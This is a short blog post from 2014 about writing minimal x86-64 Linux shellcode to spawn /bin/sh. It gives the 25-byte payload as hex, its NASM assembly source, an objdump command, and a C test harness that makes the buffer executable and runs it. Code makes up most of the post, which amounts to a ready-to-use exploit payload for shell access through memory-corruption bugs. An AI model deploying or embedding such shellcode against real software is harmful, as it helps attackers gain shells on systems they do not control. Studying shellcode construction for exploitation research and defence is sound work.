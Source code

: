 ```yaml
---
layout: post
title: "Minimal x86-64 shellcode for /bin/sh?"
date: 2014-06-05 01:54:22 +0000
permalink: /2014/06/05/minimal-x86-64-shellcode-for-binsh/
category: Security
tags: Exploitation,Security
---
```

I was trying to figure out the minimal shellcode necessary to launch /bin/sh from a 64-bit processor, and the smallest I could come up with is 25 bytes: `\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05`.

This was produced from the following source:

    BITS 64
    
    main:
      mov rbx, 0xFF978CD091969DD1
      neg rbx
      push rbx
      xor eax, eax
      cdq
      xor esi, esi
      push rsp
      pop rdi
      mov al, 0x3b  ; sys_execve
      syscall

Compile with nasm, examine the output with `objdump -M intel -b binary -m i386:x86-64 -D shellcode`.

Here's a program for testing:

    #include <sys/mman.h>
    #include <stdint.h>
    
    char code[] = "\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05";
    
    int main(){
      mprotect((void *)((uint64_t)code & ~4095), 4096, PROT_READ|PROT_EXEC);
      (*(void(*)()) code)();
      return 0;
    }

I'd like to find a good tool to compile my shellcode, extract as hex, build a test bin, and run it, all in one.  Should be a trivial python script, actually.
